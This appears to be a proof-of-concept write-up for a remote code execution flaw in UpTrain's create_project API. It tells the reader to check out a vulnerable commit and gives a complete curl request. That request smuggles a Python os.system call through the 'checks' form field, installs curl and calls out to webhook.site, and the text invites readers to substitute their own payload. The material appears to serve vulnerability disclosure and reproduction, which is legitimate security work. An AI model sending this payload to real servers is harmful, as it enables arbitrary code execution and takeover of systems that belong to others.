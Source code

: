 # vulnerable instance setup
1. Install the vulnerable instance by running the following command:
```bash
git clone https://github.com/uptrain-ai/uptrain
cd uptrain
# for compatibility with the RCE vulnerability, checkout the commit that still has the vulnerability
git checkout a31cc14eddcb6c0b0b12cbed15f086d98c441c6f
bash run_uptrain.sh
```
open http://localhost:3000 in your browser.

## Exploiting the Vulnerability
To demonstrate the vulnerability, you can send an HTTP request to execute arbitrary code on the server.
### Example
The example payload below runs a shell command to update packages, install `curl`, and send a webhook request. you can replace `apt update && apt install curl -y && curl https://webhook.site/` with your own payload.

```bash
curl 'http://localhost:4300/api/public/create_project' -H'uptrain-access-token: default_key' -H 'Content-Type: multipart/form-data; boundary=----WebKitFormBoundarysFz2W1h9iMH4IFs9'  --data-raw $'------WebKitFormBoundarysFz2W1h9iMH4IFs9\r\nContent-Disposition: form-data; name="model"\r\n\r\ngpt-3.5-turbo\r\n------WebKitFormBoundarysFz2W1h9iMH4IFs9\r\nContent-Disposition: form-data; name="project_name"\r\n\r\nasdf\r\n------WebKitFormBoundarysFz2W1h9iMH4IFs9\r\nContent-Disposition: form-data; name="checks"\r\n\r\n__import__(\'os\').system(\'apt update && apt install curl -y && curl https://webhook.site/')\r\n------WebKitFormBoundarysFz2W1h9iMH4IFs9\r\nContent-Disposition: form-data; name="dataset_name"\r\n\r\nasdf\r\n------WebKitFormBoundarysFz2W1h9iMH4IFs9\r\nContent-Disposition: form-data; name="data_file"; filename="test.jsonl"\r\nContent-Type: application/octet-stream\r\n\r\n\r\n------WebKitFormBoundarysFz2W1h9iMH4IFs9\r\nContent-Disposition: form-data; name="metadata"\r\n\r\n{"gpt-3.5-turbo":{"openai_api_key":"asdf"}}\r\n------WebKitFormBoundarysFz2W1h9iMH4IFs9--\r\n'
```